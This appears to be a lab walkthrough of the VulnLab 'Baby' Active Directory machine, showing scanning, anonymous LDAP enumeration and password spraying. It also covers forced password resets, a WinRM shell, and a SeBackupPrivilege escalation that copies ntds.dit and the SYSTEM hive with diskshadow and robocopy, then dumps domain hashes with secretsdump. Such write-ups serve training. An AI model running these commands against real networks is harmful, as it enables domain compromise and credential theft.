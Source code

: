 ```yaml
---
layout: post
title: VulnLab - Baby
date: 15-04-2025
categories: [Machines]
tags: [ldap, anonymous, SeBackupPrivilege, smbpasswd]
image: "https://images-ext-1.discordapp.net/external/iTsNgpEcu1U88J1FvpyBi4VwhZZRBo0W6Rd5ARdznbE/https/assets.vulnlab.com/baby_slide.png?format=webp&quality=lossless"
---
```


![image](https://www.notion.so/image/attachment%3Aa03294c9-05f1-41a8-8020-c8038e84c4f4%3Aimage?table=block&id=1d43d2c4-89f6-80eb-bd47-d915caa3f7e7&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)


## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```

![image](https://www.notion.so/image/attachment%3Aa03294c9-05f1-41a8-8020-c8038e84c4f4%3Aimage?table=block&id=1d43d2c4-89f6-80eb-bd47-d915caa3f7e7&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```

![image](https://www.notion.so/image/attachment%3A018b74bd-511a-4fd8-8ec7-4f1f4d8095e8%3Aimage?table=block&id=1d43d2c4-89f6-8001-bec2-db7e456dd308&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```

![image](https://www.notion.so/image/attachment%3A8128a076-a6bb-4f80-9bb2-dc3ad0369069%3Aimage?table=block&id=1d43d2c4-89f6-80df-96ae-c13d0b80c19d&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```

![image](attachment:05b5e0ca-390a-4177-93b8-e35d16df897c:image)

![image](attachment:db4dad91-4b41-4c20-9be5-ddcb4e2aac1d:image)

```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```

![image](attachment:25f57ada-baf4-4c58-971b-ceec561bab1b:image)

### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```

![image](attachment:abb5435f-cbb9-4545-9e89-de1e97c36b6b:image)

First Degree Group Membership

![image](attachment:d0bf5e4e-f85b-4572-bf11-ea02f49caf53:image)

## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](attachment:6d9b5578-ff7b-4256-bc6e-5cba314f6c2a:image)

```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](attachment:285aca5c-0905-44ce-a5f5-41b3c7d8c40a:image)

## PrivEsc

![image](attachment:f467d9ad-d930-45d5-8ce4-c89e693b6d2a:image)

vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```

![image](attachment:b667af4c-76d1-4791-ba3a-1f07c1236c9e:image)

```bash
diskshadow /s vss.dsh
```

![image](attachment:9bae947d-2427-40a8-9a2d-257f5a30472c:image)

Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

![image](attachment:8cc23693-5ecd-4051-83ed-689ac6d3bbb1:image)

also

```bash
reg.exe save hklm\system system
```

download

![image](attachment:cf5692c0-d2bc-4af1-9f01-152eb717568a:image)

Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

![image](attachment:e5d49be1-1fef-495e-9b82-7569e4ed18e7:image)